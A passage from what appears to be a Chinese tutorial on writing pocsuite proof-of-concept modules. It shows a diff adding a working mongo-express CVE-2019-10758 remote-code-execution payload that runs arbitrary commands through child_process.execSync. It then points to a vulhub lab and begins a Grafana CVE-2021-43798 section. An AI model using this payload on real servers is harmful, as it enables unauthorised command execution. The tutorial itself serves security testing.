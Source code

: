     def _exploit(self, param=''):
-        if not self._check(dork=''):
+        if not self._check(dork='mongo-express='):
             return False

         user = self.get_option('user')
         pwd = self.get_option('pwd')
         headers = {'Content-Type': 'application/x-www-form-urlencoded'}
-        payload = 'a=b'
-        res = requests.post(self.url, headers=headers, data=payload)
+        payload = (
+            'document=this.constructor.constructor("return process")().'
+            f'mainModule.require("child_process").execSync("{param}")'
+        )
+        res = requests.post(f'{self.url}/checkValid', headers=headers, data=payload, auth=(user, pwd))
         logger.debug(res.text)
         return res.text
```  
  
搭建靶场：https://github.com/vulhub/vulhub/tree/master/mongo-express/CVE-2019-10758  
  
  
漏洞验证，通过命令行  
参数   
--user admin --pwd pass --oob-server interact.sh  
 分别指定了  
用户名、密码、和使用的 DNSLog 服务地址，也可以不指定，使用默认值。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1MbPOQmM0ZvzkXgtdfHn4Z3lvL5TicHwDzcqa2LplXfiaJUic5FInNAVFamqZmrjwL1kMVMnVsHkrhA/640?wx_fmt=png "")  
##   
  
**5.5**  
  
## Grafana 未授权任意文件读取漏洞  
## （CVE-2021-43798）  
  
  
##   
  
**漏洞细节：Grafana 文件读取漏洞分析与汇总(CVE-2021-43798)**  
  
**链接：https://blog.riskivy.com/grafana-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E6%B1%87%E6%80%BBcve-2021-43798/**  
  
  
Grafana 是一个跨平台、开源的数据可视化网络应用程序平台。  
Grafana v8.0.0-beta1  
 到 v8.3.0  
 存在未授权任意文件读取漏洞。‍  
  
  
生成模版：  
  
```
→pocsuite --new
...
-----
Seebug ssvid (eg, 99335) [0]: 99398
PoC author (eg, Seebug) []: Seebug
Vulnerability disclosure date (eg, 2021-8-18) [2022-07-11]: 2021-12-07